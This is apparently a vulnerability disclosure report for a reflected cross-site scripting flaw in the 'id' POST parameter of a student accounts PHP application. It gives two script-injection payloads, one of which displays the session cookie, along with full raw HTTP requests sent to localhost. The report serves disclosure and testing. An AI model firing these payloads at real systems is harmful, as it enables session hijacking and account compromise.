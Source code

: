 # Monitoring of Students Cyber Accounts System v1.0 has Cross-site scripting (reflected)

BUG_Author: Xue Yue

Website source address:https://www.sourcecodester.com/php/11743/monitoring-students-cyber-accounts.html

Vulnerability url: /MSCAB/modules/balance/index.php?view=balancelist

POST parameter 'id' exists XSS vulnerability

Payload1:id="><script>alert(111)</script>

```
POST /MSCAB/modules/balance/index.php?view=balancelist HTTP/1.1
Host: localhost
Content-Length: 50
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/MSCAB/modules/balance/index.php?view=balancelist
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=4ucuktra2adujlr277p85iuap1
Connection: close

id=%22%3E%3Cscript%3Ealert%28111%29%3C%2Fscript%3E
```

![image](https://github.com/xyaly163/bug_report/blob/main/picture/xss1.png)

Payload2:id="><script>alert(document.cookie)</script>

```
POST /MSCAB/modules/balance/index.php?view=balancelist HTTP/1.1
Host: localhost
Content-Length: 62
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/MSCAB/modules/balance/index.php?view=balancelist
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=4ucuktra2adujlr277p85iuap1
Connection: close

id=%22%3E%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E
```

![image](https://github.com/xyaly163/bug_report/blob/main/picture/xss2.png)
